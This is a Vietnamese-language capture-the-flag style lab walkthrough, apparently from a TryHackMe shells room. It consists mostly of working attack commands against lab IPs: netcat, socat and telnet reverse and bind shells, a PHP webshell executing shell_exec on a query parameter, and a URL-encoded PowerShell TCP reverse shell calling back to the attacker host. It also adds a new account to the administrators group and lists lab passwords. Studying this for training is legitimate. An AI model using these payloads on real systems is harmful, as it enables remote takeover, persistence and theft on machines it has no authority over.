

# Practical Webshell

IP attacker: 10.10.45.62

IP victim: 10.10.237.148

1. Vào  /usr/share/webshells/php/php-reverse-shell.php thay đổi IP và Port. 



1. Cài đặt cổng lắng nghe sau đó upload  php-reverse-shell.php và thực thi nó
    
    
    

---

---

---

- **Username:** shell
- **Password:** TryH4ckM3!
1. Đăng nhập ssh với tài khoảng trên vào IP victim
    
    
    
2. Dùng reverse shell và bind shell
    
    ### **Bind shell**
    
    Victim
    
    ```jsx
    mkfifo /tmp/f; nc -lvnp 1235 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
    ```
    
    Attacker
    
    ```jsx
    nc 10.10.237.148 1235
    ```
    
    
    
    ### Reverse shell
    
    Attacker
    
    ```jsx
    nc -lvnp 1235
    ```
    
    Victim
    
    ```jsx
    mkfifo /tmp/f; nc 10.10.45.62 1235 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
    ```
    
    
    

---

---

---

- **Username:** shell
- **Password:** TryH4ckM3!
1. Đăng nhập ssh với tài khoảng trên vào IP victim
    
    
    
2. Reverse and Bind shells dùng Socat
    
    ### Reverse shell
    
    Attacker
    
    ```jsx
    socat TCP-L:1235 -
    ```
    
    Victim
    
    ```jsx
    socat TCP:10.10.45.62:1235 EXEC:"bash -li"
    ```
    
    
    
    ### Bind shell
    
    Victim
    
    ```jsx
    socat TCP-L:1235 EXEC:"bash -li"
    ```
    
    Attacker
    
    ```jsx
    socat TCP:10.10.237.148:1235 -
    ```
    

---

---

---

- **Username:** shell
- **Password: TryH4ckM3!**
1. Đăng nhập ssh với tài khoảng trên vào IP victim
    
    
    
2. Tạo 2 nc lắng nghe trên máy attacker và trên máy Victim tạo kết nối về máy attacker
    
    Attacker
    
    ```jsx
    nc -lvp 8080
    nc -lvp 8081
    ```
    
    Victim
    
    ```jsx
    telnet 10.10.45.62 8080 | /bin/sh | telnet 10.10.45.62 8081
    ```
    
    - Khi bạn chạy lệnh trên máy nạn nhân, nó sẽ tạo ra hai kết nối telnet đến máy tấn công.
    - Trên máy tấn công, bạn sẽ thấy đầu ra của các lệnh bạn thực thi trên máy nạn nhân trong kết nối telnet trên cổng 8081.
    - Bạn có thể nhập các lệnh vào kết nối telnet trên cổng 8080, và chúng sẽ được thực thi trên máy nạn nhân.
    
    
    

---

---

---

Switch to the Windows VM. Try uploading and activating the **`php-reverse-shell`**. Does this work?


---

1. Tạo 1 webshell.php bên trong chứa
    
    ```jsx
    <?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
    ```
    
2. Upload webshell.php lên web victim và thực hiện lệnh `whoami`
    
    
    
3. Tạo 1 trình lắng nghe trên máy attacker
    
    ```jsx
    nc -lnvp 1234
    ```
    
4. Tạo 1 shell RCE
    
    ```jsx
    powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.45.62%27%2C1234%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
    ```
    
    Tạm hiểu là IP đích là IP của attacker và cổng đang lắng nghe do attacker tạo
    
    
    

---

---

Đăng nhập vào Winsever 2019 

- **Username:** Administrator
- **Password:** TryH4ckM3!

Hoặc dùng lệnh 

```jsx
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.10.24 /u:Administrator /p:'TryH4ckM3!'
```


1. Tạo tài khoảng user mới và thêm  "administrators" group
    
    ```jsx
    PS C:\xampp\htdocs\uploads> net user tnwan1 12345 /add
    The command completed successfully.
    
    PS C:\xampp\htdocs\uploads> net localgroup administrators tnwan1 /add
    The command completed successfully.
    ```
    
    1. Đăng nhập vào tài khoảng vừa tạo
        
        ```jsx
        xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.10.24 /u:tnwan1 /p:12345
        ```
        
        
        

---

---

---

Cheat Sheet: [https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)